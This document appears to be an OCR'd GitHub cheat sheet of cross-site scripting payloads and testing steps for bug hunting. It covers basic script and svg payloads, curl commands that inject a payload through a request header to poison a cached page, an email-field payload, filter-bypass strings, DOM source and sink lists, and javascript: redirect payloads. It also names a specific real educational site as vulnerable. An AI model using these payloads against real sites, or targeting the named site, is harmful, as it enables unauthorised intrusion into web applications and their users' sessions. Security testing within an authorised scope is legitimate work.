 # xss

Payloads: 

**Basic payload 
**<script>alert(1)</script>
<img src=x onerror=confirm(1)>
**Request header: 
**
1. Capture Request.
2.  Change request header to post 
3. Referer: https://google.com/? (check response for reflection)
4. https://google.com/?q=xss (check for balance and reflection of parameter xss)

**XSS on useragent  and chaching
**

1.curl "target.com/parameter.php?xss" -I 
2.Note : cahce:HIT (request coming from cache) cache:MISS (request not  coming for cache)
3.curl "target.com/parameter.php?xss" -I -H "xss:<svg onload=alert(1)>
4. Check if cahe got hit.
5. Change the endpoint curl "target.com/parameter.php?xss1" -I -H "xss:<svg onload=alert(1)>
6. run curl "target.com/parameter.php?xss1"      (check response for xss <svg header )
7. visit target.com/parameter.php?xss1 in browser !! BOOM XSS !!
                                                                              
**XSS on email login field                                                                               
**
Email address validator:
http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate
avanthi.edu.in = vulnerable
Payload = "><svg/onload=confirm(1)>"@x.y
                                                                              
                                                                                                                                                        
 **XSS using url encoding and base 64 encoding** = encode the payload 
 
**  Note : If script , img , " , encoding is blocked use :                                                                            
** '-confirm(xss)-'
                                                      
**Blind XSS 
**                                                                              
 Try on feedback or chat bot   
 
**Stored XSS
**
 
edit profile, chatbots, anything that'e getting stored. 
 
**XSS DOM  
**
 Source List : 
document.URL
document.referrer
location.href
location.hash
location.search
location.pathname 
 
 Sink list: 
 eval 
 setTimeout
 setInterval
 document.write
 elements.innerHTML
 
 payload for redirect parameter = javascript:alert(1)
 index=alert(1)
 
 DOM XSS SCANNER : https://github.com/dwisiswant0/findom-xss.git
  
  
** Onmouseover payload** : <a href="javascript:alert(1)" onmouseover=alert(1)>hovermeplz</a>
 
 
